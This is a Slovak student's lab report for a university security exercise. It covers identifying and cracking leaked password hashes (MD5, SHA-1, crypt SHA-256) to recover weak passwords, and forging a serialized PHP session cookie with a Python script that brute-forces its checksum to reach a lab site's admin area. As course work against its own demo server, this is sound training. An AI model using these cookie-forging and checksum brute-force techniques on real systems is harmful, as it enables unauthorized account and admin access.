








# Cvičenie 4 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 4.1 Weak passwords and hashing
- Unikla vám databáza s heslami vašich používateľov.
- Identifikujte formát hashovania jednotlivých hesiel hashovaciu funkciu a prípadný salt a napíšte, či je dané hashovanie bezpečné. Ak nie, uvedte pre čo.
- Pokúste sa zlomit jednotlivé heslá pomocou OSINT a crackovacích nástrojov (john the ripper alebo hashcat).Heslá sa nachádzajú v slovníkoch s bežnými heslami.


Použil som nástroj hash-identifier na zistenie hashov hesiel

**320f90360b2e6242a1605c6a43466691** - MD5

Na cracknutie som použil túto stránku: https://md5.j4ck.com/13950 a heslo je **krokodil123**

**da39a3ee5e6b4b0d3255bfef95601890afd80709** - SHA-1

Na cracknutie som použil túto stránku: https://sha1.gromweb.com/?string= a heslo je empty string




**$1$e89cca48$.lNUNFuE848.qRakPnepu/** - MD5 (Unix)

Na cracknutie hesla som použil nástroj john the ripper a heslo je **12345678**




**$5$1111$Fu1TGVjZl6a7x2vnKn5HqzhlevDCQyGObcGPAziy61D** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **password1**



**$5$1111$N21DKC75OGVQpl5dkeN0FUvsR3JoiyLP1XxSkDOAfM7** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **nbusr123**



## 4.2 Broken authentication
- Na stránke “backend.php” nájdete prihlasovací formulár.
- Vaše meno a heslo a heslo je “bit” “bit”.
- Získajte prístup do administrátorskej časti stránky a nájdite “flag”.


Najprv som sa prihlásil a našiel cookie v browseri.



Toto znamená, že cookie má v sebe 2 informácie: sess a sess_csum. Sess string som dal do base64 dekódera a vyhodilo mi to nasledovný output:

```php
O:8:"stdClass":4:{
    s:2:"id";i:13;
    s:5:"login";s:3:"bit";
    s:8:"password";s:3:"bit";
    s:8:"is_admin";b:0;
}
```

Tento output je vlastne serializovaný cookie, tak som v dátach zmenil polia **id** na 1, **login** na jozko, **password** na kreslo a **is_admin** na 1. Dáta som následne naspäť enkódoval a vyšiel mi tento base64 string:

```
Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ==
```

Po pár pokusoch o uhádnutie checksum (nájdenie nejakého vzorca) som si napísal script, ktorý brute force-uje všetky checksum 0-1000:

```py
import requests

url = "https://xviest.bit.demo-cert.sk/backend.php"

login_data = {
    "action": "login",
    "login": "bit",
    "password": "bit"
}

with requests.Session() as session:
    response = session.post(url, data=login_data)
    cookie = session.cookies.get_dict()

results = []

for i in range(1000):
    cookie["sess"] = "Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ=="
    cookie["sess_csum"] = str(i)
    response = requests.get(url, cookies=cookie)
    curr_cookie = "checksum {}: {}".format(i, response.content)

    print(curr_cookie)

    results.append(curr_cookie)

print(results)
```

S týmto postupom som našiel správnu hodnotu checksum, ktorá je **103**




Keď som nahradil cookie údaje, tak sa mi zobrazil "flag": **krtko**






## 4.4 More code review

- Na adrese https://bit.demo-cert.sk/derave2.phps nájdete časť zdrojového kódu webovej aplikácie napísanej v jazyku PHP.
- Nájdite v nej čo najviac zraniteľností a logický chýb. (aspon 3)
- Zamerajte sa na typy zranitelností, ktoré ste neobjavili v úlohe 3.4
- Okomentujte ich a vyskúšajte ich pomenovať pomocou CWE identifikátorov.
- Bonus: Navrhnite odporúčania, ako problému odstrániť, prípadne opravte kód
